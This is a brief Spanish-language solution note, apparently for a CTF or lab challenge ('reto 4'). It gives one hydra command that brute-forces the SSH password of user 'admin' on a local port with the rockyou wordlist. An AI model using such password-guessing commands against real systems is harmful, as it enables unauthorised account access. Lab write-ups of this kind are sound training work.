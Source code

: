 # Solucion para el reto 4

## Comando utilizado para la obtencion de la contraseña del usuario admim

```bash
hydra -s 2222 -l admin -P /usr/share/wordlists/rockyou.txt -e nsr -t 8 ssh://127.0.0.1 -v -f

```


